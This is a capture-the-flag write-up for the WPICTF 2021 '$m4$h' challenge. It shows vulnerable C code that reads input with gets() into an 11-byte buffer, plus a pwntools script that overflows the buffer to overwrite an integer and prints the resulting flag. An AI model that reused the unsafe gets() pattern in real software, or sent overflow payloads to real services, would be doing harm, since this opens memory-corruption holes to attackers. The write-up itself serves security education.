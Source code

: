 # WPICTF 2021

## $m4$h

> 100
> 
> Simple stack smashing challenge
>
> Connect on `nc smash184384.wpictf.xyz 15724`.
>
> Press enter once after connecting
>
> Author: Iv
>
> [`challenge.c`](challenge.c)

Tags: _pwn_ _bof_ _variable-overwite_


## Summary

Meh.


## Analysis

```c
#include <stdio.h>
#include <string.h>

void printFlagObfuscated(){
    // [REDACTED]
}

int main()
{
    int specialInt = 924053438;
    printf("Please enter a string: ");
    char buffer[11];
    gets(buffer);

    if(specialInt == 923992130){
        printFlagObfuscated();
    }else{
        printf("Input was %s. This is a very normal and boring program that prints your input.\n", buffer);
    }

    return 0;
}
```

No binary provided, no leaks, could be x86_64, could be arm, canary? PIE? ...

Not a lot to go on, hopefully the compiler put `buffer` above `specialInt` on the stack so that all we have to do is send 11 (or more, no idea how stack is aligned) junk chars before sending 923992130.

> No `setbuf`; one of those `echo | nc` things.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('smash184384.wpictf.xyz', 15724)

payload  = b''
payload += 11 * b'A'
payload += p32(923992130)

p.sendline(payload)
p.recvuntil('string: ')
p.stream()
```

Output:

```bash
# ./exploit.py
[+] Opening connection to smash184384.wpictf.xyz on port 15724: Done
WPI{ju5t!n|$bR#4tht4k!n6}
```
